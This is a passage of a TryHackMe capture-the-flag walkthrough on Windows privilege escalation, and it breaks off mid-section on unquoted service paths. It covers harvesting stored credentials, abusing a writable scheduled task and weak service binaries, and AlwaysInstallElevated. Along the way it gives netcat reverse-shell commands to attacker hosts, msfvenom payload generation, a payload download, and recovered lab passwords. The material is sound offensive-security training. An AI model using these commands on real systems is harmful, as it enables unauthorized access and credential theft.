






# Windows Privilege Escalation

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Medium
Tags: Windows
Subscription type: Premium
Description:
Learn the fundamentals of Windows privilege escalation techniques.
```

Room link: [https://tryhackme.com/room/windowsprivesc20](https://tryhackme.com/room/windowsprivesc20)

## Solution

### Task 1: Introduction

During a penetration test, you will often have access to some Windows hosts with an unprivileged user. Unprivileged users will hold limited access, including their files and folders only, and have no means to perform administrative tasks on the host, preventing you from having complete control over your target.

This room covers fundamental techniques that attackers can use to elevate privileges in a Windows environment, allowing you to use any initial unprivileged foothold on a host to escalate to an administrator account, where possible.

 If you want to brush up on your skills first, you can have a look through the [Windows Fundamentals Module](https://tryhackme.com/module/windows-fundamentals) or the [Hacking Windows Module](https://tryhackme.com/module/hacking-windows-1).

### Task 2: Windows Privilege Escalation

Simply put, privilege escalation consists of using given access to a host with "user A" and leveraging it to gain access to "user B" by abusing a weakness in the target system. While we will usually want "user B" to have administrative rights, there might be situations where we'll need to escalate into other unprivileged accounts before actually getting administrative privileges.

Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:

- Misconfigurations on Windows services or scheduled tasks
- Excessive privileges assigned to our account
- Vulnerable software
- Missing Windows security patches

Before jumping into the actual techniques, let's look at the different account types on a Windows system.

#### Windows Users

Windows systems mainly have two kinds of users. Depending on their access levels, we can categorise a user in one of the following groups:

|Group|Description|
|----|----|
|**Administrators**|These users have the most privileges. They can change any system configuration parameter and access any file in the system.|
|**Standard Users**|These users can access the computer but only perform limited tasks. Typically these users can not make permanent or essential changes to the system and are limited to their files.|

Any user with administrative privileges will be part of the **Administrators** group. On the other hand, standard users are part of the **Users** group.

In addition to that, you will usually hear about some special built-in accounts used by the operating system in the context of privilege escalation:

|Built-in Account|Description|
|----|----|
|**SYSTEM** / **LocalSystem**|An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators.|
|**Local Service**|Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.|
|**Network Service**|Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.|

These accounts are created and managed by Windows, and you won't be able to use them as other regular accounts. Still, in some situations, you may gain their privileges due to exploiting specific services.

---------------------------------------------------------------------------------------

#### Users that can change system configurations are part of which group?

Answer: `Administrators`

#### The SYSTEM account has more privileges than the Administrator user (aye/nay)

Answer: `aye`

### Task 3: Harvesting Passwords from Usual Spots

The easiest way to gain access to another user is to gather credentials from a compromised machine. Such credentials could exist for many reasons, including a careless user leaving them around in plaintext files; or even stored by some software like browsers or email clients.

This task will present some known places to look for passwords on a Windows system.

Before going into the task, remember to click the **Start Machine** button. You will be using the same machine throughout tasks 3 to 5. If you are using the **AttackBox**, this is also a good moment to start it as you'll be needing it for the following tasks.

In case you prefer connecting to the target machine via RDP, you can use the following credentials:

- **User**: thm-unpriv
- **Password**: Password321

#### Unattended Windows Installations

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

As part of these files, you might encounter credentials:

```text
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

#### Powershell History

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a `cmd.exe` prompt:

```bat
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note**: The command above will only work from `cmd.exe`, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`.

```powershell
Get-Content $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

#### Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```bat
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.

```bat
runas /savecred /user:admin cmd.exe
```

#### IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find `web.config` in one of the following locations:

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```bat
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

#### Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

```bat
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

**Note**: Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

---------------------------------------------------------------------------------------

#### A password for the julia.jones user has been left on the Powershell history. What is the password?

```powershell
PS C:\Users\thm-unpriv> Get-Content $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
whoami
Get-Content $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS C:\Users\thm-unpriv>
```

Answer: `ZuperCkretPa5z`

#### A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

```bat
C:\Users\thm-unpriv>type C:\inetpub\wwwroot\web.config | findstr connectionString
The system cannot find the file specified.

C:\Users\thm-unpriv>type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
                <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
                    <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />
    <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
    </connectionStrings>

C:\Users\thm-unpriv>
```

Answer: `098n0x35skjD3`

#### There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop

```bat
C:\Users\thm-unpriv>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz


C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...

C:\Users\thm-unpriv>
```

And then in the new window

```bat
C:\Windows\system32>cd C:\Users\mike.katz\Desktop

C:\Users\mike.katz\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\mike.katz\Desktop

05/04/2022  05:17 AM    <DIR>          .
05/04/2022  05:17 AM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
05/04/2022  05:17 AM                24 flag.txt
               3 File(s)          1,105 bytes
               2 Dir(s)  24,975,798,272 bytes free

C:\Users\mike.katz\Desktop>type flag.txt
THM{<REDACTED>}
C:\Users\mike.katz\Desktop>
```

Answer: `THM{<REDACTED>}`

#### Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?

```bat
C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    CoolPass2021
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1

End of search: 10 match(es) found.
```

Answer: `CoolPass2021`

### Task 4: Other Quick Wins

Privilege escalation is not always a challenge. Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access. It would help if you considered these to belong more to the realm of CTF events rather than scenarios you will encounter during real penetration testing engagements. However, if none of the previously mentioned methods works, you can always go back to these.

#### Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```bat
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:

```bat
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the **.bat** file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:

```bat
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

```bash
nc -lvp 4444
```

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:

```bat
C:\> schtasks /run /tn vulntask
```

And you will receive the reverse shell with taskusr1 privileges as expected:

```bash
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
```

Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

#### AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

**Note**: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```bat
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```bat
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

---------------------------------------------------------------------------------------

#### What is the taskusr1 flag?

We start by quering for the task

```bat
C:\Users\thm-unpriv> schtasks /query /tn vulntask /fo list /v

Folder: \
HostName:                             WPRIVESC1
TaskName:                             \vulntask
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        12/19/2025 11:28:04 AM
Last Result:                          0
Author:                               WPRIVESC1\Administrator
Task To Run:                          C:\tasks\schtask.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          taskusr1
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
```

The task runs the batch script `C:\tasks\schtask.bat`. Let's check its permissions

```bat
C:\Users\thm-unpriv> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat BUILTIN\Users:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

All Users have full access (F). We can overwrite it with a reverse shell.

First we start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

And then we overwrite the task script

```bat
C:\Users\thm-unpriv> echo c:\tools\nc64.exe -e cmd.exe 192.168.187.183 12345 > C:\tasks\schtask.bat
```

The task only runs on system startup as standard (`Schedule Type: At system start up`) but we can trigger it manually

```bat
C:\Users\thm-unpriv> schtasks /run /tn vulntask
SUCCESS: Attempted to run the scheduled task "vulntask".
```

Back at the netcat listener, we have a connection and can search for the flag

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/TryHackMe/Walkthroughs/Medium]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.187.183] from (UNKNOWN) [10.67.162.106] 49923
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\taskusr1

C:\Windows\system32>where /R C:\Users flag*
where /R C:\Users flag*
C:\Users\taskusr1\Desktop\flag.txt

C:\Windows\system32>type C:\Users\taskusr1\Desktop\flag.txt
type C:\Users\taskusr1\Desktop\flag.txt
THM{<REDACTED>}
C:\Windows\system32>
```

Answer: `THM{<REDACTED>}`

### Task 5: Abusing Service Misconfigurations

#### Windows Services

Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:

```bat
C:\> sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Application Host Helper Service
        DEPENDENCIES       :
        SERVICE_START_NAME : localSystem
```

Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from Process Hacker (available on your machine's desktop):


All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`:


A subkey exists for every service in the system. Again, we can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**. As you have guessed by now, only administrators can modify such registry entries by default.

#### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using `sc`:

```bat
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```

We can see that the service installed by the vulnerable software runs as **svcuser1** and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

```bat
C:\Users\thm-unpriv> icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

And here we have something interesting. The **Everyone** group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using `msfvenom` and serve it through a python webserver:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

We can then pull the payload from Powershell with the following command:

```powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

```bat
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

We start a reverse listener on our attacker machine:

```bash
user@attackerpc$ nc -lvp 4445
```

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a `cmd.exe` command prompt:

```bat
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

**Note**: PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with **svcusr1** privileges:

```bash
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1
```

Go to **svcusr1** desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

#### Unquoted Service Paths

When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "**unquoted**" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by `"C:\Program Files\RealVNC\VNC Server\vncserver.exe"`, followed by the given parameters:

```bat
C:\> sc qc "vncserver"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vncserver
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : VNC Server
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

**Remember**: PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` to control services if you are in a PowerShell prompt.
Now let's look at another service without proper quotation:

```bat
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```

When the SCM tries to execute the associated binary, a problem arises. Since there are spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:

|Command|Argument 1|Argument 2|
|----|----|----|
|C:\MyPrograms\Disk.exe|Sorter|Enterprise\bin\disksrs.exe|
|C:\MyPrograms\Disk Sorter.exe|Enterprise\bin\disksrs.exe||
|C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe|||

This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be to execute `C:\MyPrograms\Disk.exe` and take the rest as arguments.

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:

1. First, search for `C:\MyPrograms\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\MyPrograms\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under `c:\MyPrograms`. By default, this inherits the permissions of the `C:\` directory, which allows any user to create files and folders in it. We can check this using `icacls`:

```bat
C:\> icacls c:\MyPrograms
